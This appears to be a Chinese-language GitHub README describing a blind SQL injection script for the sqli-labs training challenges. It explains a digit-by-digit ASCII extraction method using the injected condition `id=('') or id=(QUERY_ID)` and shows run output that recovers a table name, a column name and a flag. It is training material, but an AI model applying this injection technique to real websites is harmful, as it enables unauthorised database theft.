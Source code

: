# some_scripts
some common-used scripts
一些常用的脚本

# boolean_sqli_exp.py
sqli-lab less60之后的盲注脚本
*注入原理*
1. id=1到id=12都有值，且值不同；可参考源码中的`["Dumb","Angelina","Dummy","secure","stupid","superman","batman","admin","admin1","admin2","admin3","dhakkan","admin4"]`，因此可根据页面内容反推id， 例如当页面出现admin2，就知道id=9

2. 因此，使用分段带出ascii码值的方式注入，即将每一个字符的ascii值分成百位、十位、个位，每一位范围都是0~9，记为QUERY_ID

3. 当请求`id=('') or id=(QUERY_ID)`，数据库会执行注入的查询语句，我们可根据页面的回显确定QUERY_ID是多少，即字符ascii值的每一位数字是多少。

4. 本方法降低运算量至3次。实际上，本关130次的限制是怎么来的呢？
```markdown
表名：len('P79FGLN0JK') = 10， 
列名：len('secret_Y1P6')= 11，
flag：len('uwpeCvsrLcadsa8P7wSn9Ix4') =24*
访问次数 = (10+11+24)x3 = 125 < 130
```
所以，我更加确定这是作者想要我们使用的方法
5. 附录常见注入算法的复杂度
-----------------
|算法|复杂度|
|逐位比较|理论128次|
|位运算|理论8次|
|二分法|理论8次|
|本方法|理论3次|
-----------------

我们一位、一位地跑出结果，以获取得到第*3*位字母'c'为例，其十进制的ascii值
利用ascii(substring(query,*3*,1))中，
*运行结果*
```
markdown
boolean_sqli_exp.py'
[-]current content is:L
[-]current content is:LR
[-]current content is:LR2
[-]current content is:LR20
[-]current content is:LR20P
[-]current content is:LR20PA
[-]current content is:LR20PAL
[-]current content is:LR20PALH
[-]current content is:LR20PALHC
[-]current content is:LR20PALHCD
[-]table_name is:LR20PALHCD
[-]current content is:s
[-]current content is:se
[-]current content is:sec
[-]current content is:secr
[-]current content is:secre
[-]current content is:secret
[-]current content is:secret_
[-]current content is:secret_D
[-]current content is:secret_DO
[-]current content is:secret_DOY
[-]current content is:secret_DOYB
[+]column_name is:secret_DOYB
[-]current content is:J
[-]current content is:Jl
[-]current content is:Jll
[-]current content is:Jll9
[-]current content is:Jll98
[-]current content is:Jll98P
[-]current content is:Jll98PQ
[-]current content is:Jll98PQ8
[-]current content is:Jll98PQ8U
[-]current content is:Jll98PQ8Uy
[-]current content is:Jll98PQ8Uyk
[-]current content is:Jll98PQ8Uyka
[-]current content is:Jll98PQ8Uykak
[-]current content is:Jll98PQ8Uykakv
[-]current content is:Jll98PQ8Uykakvp
[-]current content is:Jll98PQ8Uykakvpy
[-]current content is:Jll98PQ8Uykakvpyc
[-]current content is:Jll98PQ8Uykakvpyc9
[-]current content is:Jll98PQ8Uykakvpyc9S
[-]current content is:Jll98PQ8Uykakvpyc9SP
[-]current content is:Jll98PQ8Uykakvpyc9SPs
[-]current content is:Jll98PQ8Uykakvpyc9SPst
[-]current content is:Jll98PQ8Uykakvpyc9SPstP
[-]current content is:Jll98PQ8Uykakvpyc9SPstPB
[+]FLAG is:Jll98PQ8Uykakvpyc9SPstPB
```
